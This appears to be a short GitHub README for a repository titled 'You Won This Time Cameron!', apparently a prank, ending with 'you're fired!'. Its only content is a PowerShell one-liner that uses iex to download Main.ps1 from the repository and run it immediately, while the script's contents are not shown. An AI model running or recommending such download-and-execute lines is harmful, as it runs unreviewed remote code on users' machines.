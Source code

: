 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))
```

Also, you're fired!\
<p align="center">
  <img src="https://github.com/Refr3sh/YWTTC/raw/main/download.jpg" />
</p>
